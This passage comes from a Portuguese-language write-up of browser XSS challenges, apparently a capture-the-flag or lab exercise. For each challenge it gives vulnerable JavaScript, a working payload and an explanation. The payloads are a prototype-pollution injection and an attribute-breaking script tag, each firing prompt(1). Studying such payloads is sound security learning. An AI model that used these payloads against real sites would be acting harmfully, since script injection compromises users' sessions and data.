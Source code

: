 ```bash
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}
```
- Payload funcional:
```bash
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}
```
 - Explicação:

 A função analisa um JSON de entrada para configurar uma imagem, usa `_.extend` para mesclar o input com valores padrão, além de filtrar certos caracteres especiais com a regex `/[^\w:\/.]/` e remover aspas. O payload define `source`no protótipo do objeto, afetando `config.source` após `extend`. O navegador interpreta ` como delimitador de string, tornando onerror=prompt(1) executável.
 [![imagem-2025-05-12-140128981.png](https://i.postimg.cc/rFrvTHtB/imagem-2025-05-12-140128981.png)](https://postimg.cc/8jTyBt44)

 #### Desafio F: Limitação de Tamanho e Quebra de Entrada

 - Código vulnerável:
 [![imagem-2025-05-12-140334820.png](https://i.postimg.cc/zGg5djNj/imagem-2025-05-12-140334820.png)](https://postimg.cc/75wphSfG)

 ```bash
 function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
} 
```
- Payload funcional:
``` bash
"><script>`#${prompt(1)}#`</script>
```
- Explicação:

A função remove asteriscos do input, o divide me segmentos usando `#` e gera parágrafos, onde cada segmento é truncado para 15 caracteres. O payload é projetado para quebrar o contexto HTML `(">)` e fechar o atributo `title`, além de injetar uma tag `<script>` com um template string para executar o JS, e, usar `#` para dividir o payload em segmentos que serão mesclados na saída.
[![imagem-2025-05-12-141159338.png](https://i.postimg.cc/02Kz77zY/imagem-2025-05-12-141159338.png)](https://postimg.cc/vcM8sgLT)
